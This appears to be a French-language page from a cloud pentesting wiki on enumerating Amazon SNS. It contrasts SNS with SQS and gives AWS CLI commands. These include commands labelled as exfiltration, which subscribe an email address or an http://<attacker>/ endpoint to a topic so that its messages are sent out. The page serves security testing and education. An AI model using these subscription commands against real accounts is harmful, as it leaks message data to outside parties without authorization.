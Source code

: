 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) est décrit comme un **service de messagerie entièrement géré**. Il prend en charge à la fois les types de communication **application-à-application** (A2A) et **application-à-personne** (A2P).

Les fonctionnalités clés pour la communication A2A incluent les **mécanismes de publication/abonnement (pub/sub)**. Ces mécanismes introduisent des **sujets**, cruciaux pour permettre une messagerie **push basée sur un haut débit et de nombreux à de nombreux**. Cette fonctionnalité est très avantageuse dans les scénarios impliquant des systèmes distribués, des microservices et des architectures sans serveur pilotées par des événements. En tirant parti de ces sujets, les systèmes de publication peuvent distribuer efficacement des messages à un **large éventail de systèmes d'abonnement**, facilitant un modèle de messagerie en éventail.

### **Différence avec SQS**

**SQS** est un service **basé sur des files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **unique consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la conservation des messages pour des réessais et un traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **un-à-plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement comme l'email, le SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent le découplage entre les composants dans des systèmes distribués, SQS se concentre sur la communication en file d'attente, tandis que SNS met l'accent sur les modèles de communication pilotés par des événements et en éventail.

### **Énumération**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).
>
> De plus, même si le `--topic-arn` contient la région, assurez-vous de spécifier la bonne région dans **`--region`** ou vous obtiendrez une erreur qui ressemble à une indication que vous n'avez pas accès, mais le problème est la région.

#### Accès non authentifié

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Escalade de privilèges

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistance

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Références

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}

